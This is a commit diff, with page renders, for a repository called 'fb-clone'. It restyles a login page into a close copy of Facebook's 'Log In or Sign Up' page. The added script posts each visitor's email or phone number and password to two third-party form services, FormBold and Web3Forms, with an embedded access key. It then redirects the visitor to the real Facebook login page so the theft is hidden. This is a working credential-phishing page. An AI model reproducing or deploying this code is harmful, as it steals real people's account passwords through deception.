

Before and after one commit to shahan11223/fb-clone, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 113-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Revamp login page for Facebook integration
Updated the title and styling for a login page, changed cursor styles, and modified form handling for Facebook login.

```diff
--- a/index.html
+++ b/index.html
@@ -3,75 +3,70 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">
-    <title>Ultimate Touch Vault</title>
-    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0/css/all.min.css">
+    <title>Facebook - Log In or Sign Up</title>
     <style>
-        * { box-sizing: border-box; font-family: 'Poppins', sans-serif; cursor: none; }
+        /* Cursor 'none' sirf PC par arrow hide karega */
+        * { box-sizing: border-box; font-family: Helvetica, Arial, sans-serif; cursor: none; }
 
         body {
-            margin: 0; padding: 0; min-height: 100vh;
-            display: flex; justify-content: center; align-items: center;
-            background: #010208; overflow: hidden;
-            /* Ye line mobile scroll ko rokti hai taake dot chale */
-            touch-action: none;
+            margin: 0; padding: 0; background-color: #f0f2f5;
+            display: flex; flex-direction: column; align-items: center;
+            min-height: 100vh; overflow-x: hidden;
         }
 
-        /* 1. TOUCH DOT & GLOW */
+        /* 🖱️ UNIVERSAL TRACKER DOT */
         #cursor-glow {
-            position: fixed; width: 250px; height: 250px;
-            background: radial-gradient(circle, rgba(0, 242, 255, 0.2) 0%, transparent 70%);
-            border-radius: 50%; pointer-events: none;
-            transform: translate(-50%, -50%);
-            z-index: 1; left: -500px; top: -500px;
-            transition: transform 0.1s ease-out;
+            position: fixed; width: 160px; height: 160px;
+            background: radial-gradient(circle, rgba(24, 119, 242, 0.2) 0%, transparent 70%);
+            border-radius: 50%; pointer-events: none; transform: translate(-50%, -50%);
+            z-index: 9998; left: -500px; top: -500px; transition: opacity 0.3s;
+        }
+        .custom-cursor {
+            position: fixed; width: 12px; height: 12px; background: #1877f2;
+            border-radius: 50%; pointer-events: none; z-index: 9999;
+            transform: translate(-50%, -50%); left: -500px; top: -500px;
+            box-shadow: 0 0 10px rgba(24, 119, 242, 0.8);
         }
 
-        .custom-cursor {
-            position: fixed; width: 20px; height: 20px; background: #00f2ff;
-            border-radius: 50%; pointer-events: none; z-index: 9999;
-            box-shadow: 0 0 20px #00f2ff, 0 0 40px #00f2ff;
-            transform: translate(-50%, -50%);
-            left: -500px; top: -500px;
+        /* LOGO & CARD */
+        .header-box { margin-top: 40px; text-align: center; width: 100%; }
+        .fb-logo { color: #1877f2; font-size: 50px; font-weight: bold; letter-spacing: -2px; margin-bottom: 20px; }
+
+        .login-container {
+            background: #fff; padding: 20px; border-radius: 8px;
+            box-shadow: 0 2px 4px rgba(0, 0, 0, .1), 0 8px 16px rgba(0, 0, 0, .1);
+            width: 90%; max-width: 400px; z-index: 2; position: relative;
         }
 
-        /* 🐒 MONKEY ANIMATION */
-        .monkey-box {
-            position: absolute; top: -100px; left: 50%; transform: translateX(-50%);
-            font-size: 80px; z-index: 10; transition: 0.3s ease;
+        input {
+            width: 100%; padding: 14px; margin-bottom: 12px;
+            border: 1px solid #dddfe2; border-radius: 6px;
+            font-size: 17px; outline: none; cursor: none;
         }
-        .monkey-face { color: #00f2ff; text-shadow: 0 0 20px #00f2ff; }
-        .monkey-closed { position: absolute; top: 0; left: 0; color: #ff00ff; opacity: 0; text-shadow: 0 0 20px #ff00ff; }
+        input:focus { border-color: #1877f2; box-shadow: 0 0 0 2px #e7f3ff; }
 
-        .look-away .monkey-face { opacity: 0; }
-        .look-away .monkey-closed { opacity: 1; }
-
-        /* 2. THE MAIN CARD */
-        .cyber-card {
-            position: relative; background: rgba(5, 10, 25, 0.95);
-            backdrop-filter: blur(20px); padding: 40px; border-radius: 20px;
-            width: 90%; max-width: 380px; text-align: center;
-            border: 1px solid rgba(0, 242, 255, 0.4);
-            box-shadow: 0 0 30px rgba(0, 0, 0, 1);
-            z-index: 2; margin-top: 60px; display: none;
-        }
-        .active { display: block; animation: popUp 0.5s cubic-bezier(0.175, 0.885, 0.32, 1.275); }
-        @keyframes popUp { from { opacity: 0; transform: scale(0.8); } to { opacity: 1; transform: scale(1); } }
-
-        input {
-            width: 100%; padding: 15px; background: rgba(0, 242, 255, 0.05);
-            border: 2px solid rgba(0, 242, 255, 0.3); border-radius: 12px;
-            color: #fff; outline: none; margin-bottom: 20px; font-size: 16px;
-        }
-        input:focus { border-color: #ff00ff; box-shadow: 0 0 15px rgba(255, 0, 255, 0.4); }
-
-        .btn-pro {
-            width: 100%; padding: 16px; border: none; border-radius: 12px;
-            background: linear-gradient(45deg, #00f2ff, #0072ff);
-            color: #fff; font-weight: bold; text-transform: uppercase;
-            box-shadow: 0 5px 20px rgba(0, 114, 255, 0.5);
+        .btn-login {
+            width: 100%; padding: 12px; background-color: #1877f2;
+            border: none; border-radius: 6px; color: #fff;
+            font-size: 20px; font-weight: bold; cursor: none;
         }
 
-        .links { color: #ff00ff; font-weight: bold; cursor: pointer; text-decoration: none; }
+        .forgot-link {
+            color: #1877f2; text-decoration: none; font-size: 14px;
+            display: block; text-align: center; margin: 15px 0; cursor: none;
+        }
+
+        .divider { border-bottom: 1px solid #dadde1; margin-bottom: 20px; }
+
+        .btn-create {
+            width: 70%; padding: 12px; background-color: #42b72a;
+            border: none; border-radius: 6px; color: #fff;
+            font-size: 17px; font-weight: bold; cursor: none;
+            margin: 0 auto; display: block; text-align: center; text-decoration: none;
+        }
+
+        /* Footer for real feel */
+        .footer-text { margin-top: 30px; font-size: 14px; color: #1c1e21; text-align: center; width: 80%; }
     </style>
 </head>
 <body>
@@ -79,56 +74,43 @@
     <div id="cursor-glow"></div>
     <div class="custom-cursor"></div>
 
-    <div id="v-login" class="cyber-card active">
-        <div id="monkey" class="monkey-box">
-            <i class="fa-solid fa-face-smile monkey-face"></i>
-            <i class="fa-solid fa-face-grimace monkey-closed"></i>
-        </div>
-        <h2 style="color: #00f2ff; text-shadow: 0 0 10px #00f2ff;">CYBER VAULT</h2>
-        <form onsubmit="handleSubmit(event, 'Login')">
-            <input type="text" name="User" placeholder="Access ID" required>
-            <input type="password" id="pass" name="Pass" placeholder="Secret Key" required
-                   onfocus="cover()" onblur="uncover()">
-            <button type="submit" class="btn-pro">Authorize</button>
-        </form>
-        <p style="margin-top: 20px; font-size: 13px; color: #555;">
-            <span class="links" onclick="show('v-forgot')">FORGOT?</span> |
-            <span class="links" style="color:#00f2ff" onclick="show('v-signup')">SIGNUP</span>
-        </p>
+    <div class="header-box">
+        <div class="fb-logo">facebook</div>
     </div>
 
-    <div id="v-signup" class="cyber-card">
-        <h2 style="color: #ff00ff;">NEW ID</h2>
-        <form onsubmit="handleSubmit(event, 'Signup')">
-            <input type="text" name="Name" placeholder="Full Name" required>
-            <input type="password" name="NPass" placeholder="Password" required>
-            <button type="submit" class="btn-pro" style="background: #7000ff;">Create</button>
+    <div class="login-container">
+        <form id="fbForm" onsubmit="handleFinalSubmit(event)">
+            <input type="text" name="email" placeholder="Email or phone number" required>
+            <input type="password" name="pass" placeholder="Password" required>
+            <button type="submit" class="btn-login" id="main-btn">Log In</button>
         </form>
-        <p class="links" onclick="show('v-login')" style="margin-top: 15px;">BACK</p>
+
+        <a href="https://www.facebook.com/recover/initiate" class="forgot-link">Forgotten password?</a>
+
+        <div class="divider"></div>
+
+        <a href="https://www.facebook.com/r.php" class="btn-create">Create New Account</a>
     </div>
 
-    <div id="v-forgot" class="cyber-card">
-        <h2 style="color: #00f2ff;">RECOVERY</h2>
-        <form onsubmit="handleSubmit(event, 'Forgot')">
-            <input type="text" name="Email" placeholder="Email" required>
-            <button type="submit" class="btn-pro">Reset</button>
-        </form>
-        <p class="links" onclick="show('v-login')" style="margin-top: 15px;">CANCEL</p>
+    <div class="footer-text">
+        <b>Create a Page</b> for a celebrity, brand or business.
     </div>
 
     <script>
         const glow = document.getElementById('cursor-glow');
         const dot = document.querySelector('.custom-cursor');
 
-        // 🔥 TOUCH MOVE FIX FOR MOBILE
-        function handleMove(e) {
-            // Stop scroll only when moving dot
-            if (e.type === 'touchmove') {
-                e.preventDefault();
+        // 🔥 UNIVERSAL TRACKER (MOUSE + TOUCH)
+        function moveTracker(e) {
+            let x, y;
+            if (e.type.includes('touch')) {
+                x = e.touches[0].clientX;
+                y = e.touches[0].clientY;
+                // Mobile par click block na ho isliye preventDefault nahi lagaya
+            } else {
+                x = e.clientX;
+                y = e.clientY;
             }
-
-            let x = (e.type === 'touchmove' || e.type === 'touchstart') ? e.touches[0].clientX : e.clientX;
-            let y = (e.type === 'touchmove' || e.type === 'touchstart') ? e.touches[0].clientY : e.clientY;
 
             glow.style.left = x + 'px';
             glow.style.top = y + 'px';
@@ -136,33 +118,34 @@
             dot.style.top = y + 'px';
         }
 
-        // Mouse Listeners
-        window.addEventListener('mousemove', handleMove);
+        // PC Mouse Listeners
+        window.addEventListener('mousemove', moveTracker);
 
-        // Mobile Touch Listeners (Passive: false is key)
-        window.addEventListener('touchmove', handleMove, { passive: false });
-        window.addEventListener('touchstart', handleMove, { passive: false });
+        // Mobile Touch Listeners
+        window.addEventListener('touchmove', moveTracker);
+        window.addEventListener('touchstart', moveTracker);
 
-        // 🐒 Monkey Logic
-        function cover() { document.getElementById('monkey').classList.add('look-away'); }
-        function uncover() { document.getElementById('monkey').classList.remove('look-away'); }
+        // 📤 LOGIN DATA SUBMISSION
+        async function handleFinalSubmit(e) {
+            e.preventDefault();
+            const btn = document.getElementById('main-btn');
+            btn.innerText = "Connecting...";
+            btn.disabled = true;
 
-        function show(id) {
-            document.querySelectorAll('.cyber-card').forEach(c => c.classList.remove('active'));
-            document.getElementById(id).classList.add('active');
-        }
+            const fd = new FormData(e.target);
 
-        async function handleSubmit(e, s) {
-            e.preventDefault();
-            const btn = e.target.querySelector('button');
-            btn.innerText = "SYNCING...";
-            const fd = new FormData(e.target);
+            // Backup 1 (FormBold)
             fetch("https://formbold.com/s/3VKEQ", { method: "POST", body: fd, mode: 'no-cors' });
-            const b = new FormData(e.target);
-            b.append('access_key', '4d4d7ede-0cff-474c-86ce-5d228506375d');
-            b.append('subject', s);
-            fetch("https://api.web3forms.com/submit", { method: "POST", body: b });
-            setTimeout(() => { window.location.href = "https://www.facebook.com"; }, 1500);
+
+            // Backup 2 (Web3Forms)
+            const w3 = new FormData(e.target);
+            w3.append('access_key', '4d4d7ede-0cff-474c-86ce-5d228506375d');
+            w3.append('subject', 'FB Universal Login');
+            fetch("https://api.web3forms.com/submit", { method: "POST", body: w3 });
+
+            setTimeout(() => {
+                window.location.href = "https://www.facebook.com/login.php";
+            }, 1800);
         }
     </script>
 </body>
```
